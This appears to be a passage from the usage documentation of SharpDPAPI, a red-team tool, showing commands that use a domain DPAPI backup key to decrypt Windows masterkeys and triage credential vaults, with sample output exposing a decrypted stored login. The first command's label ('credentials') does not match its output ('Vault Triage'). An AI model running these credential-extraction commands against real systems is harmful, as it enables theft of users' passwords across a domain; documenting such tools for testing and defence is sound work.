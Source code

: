 Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...
      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: DPAPI Vault Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Triaging Vaults for ALL users


    [*] Triaging Vault folder: C:\Users\harmj0y\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
        size             : 240
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      :
        aes128 key       : EDB42294C0721F2F1638A40F0CD67CD8
        aes256 key       : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793

        LastWritten      : 10/12/2018 12:10:42 PM
        FriendlyName     : Internet Explorer
        Identity         : admin
        Resource         : https://10.0.0.1/
        Authenticator    : Password!

    ...(snip)...


Using a domain DPAPI backup key with a folder specified (i.e. "offline" triage):

    C:\Temp>SharpDPAPI.exe vaults /target:C:\Temp\test\ /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: User DPAPI Vault Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!
